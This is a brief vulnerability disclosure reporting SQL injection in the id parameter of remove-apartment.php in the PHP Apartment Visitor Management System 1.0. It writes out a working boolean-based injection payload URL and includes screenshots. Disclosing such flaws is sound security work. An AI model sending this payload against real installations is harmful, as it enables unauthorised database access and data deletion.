 ## The apartment visitor management system has SQL injection vulnerability

## Vulnerability author:wanglun

supplier:
https://www.sourcecodester.com/php-apartment-visitor-management-system-source-code

edition: 
1.0

/remove-apartment.php

The Id parameter has SQL injection. Procedure

Payload: http://localhost:80/avms/remove-apartment.php?id=(SELECT (CASE WHEN (1856=1856) THEN 20 ELSE (SELECT 7557 UNION SELECT 7632) END))

![image](https://github.com/user-attachments/assets/027fa886-d2d5-4cc6-843b-be6dc4c43264)

![image](https://github.com/user-attachments/assets/cffe0fbf-5e4c-437d-a05d-6db86afdd3ee)

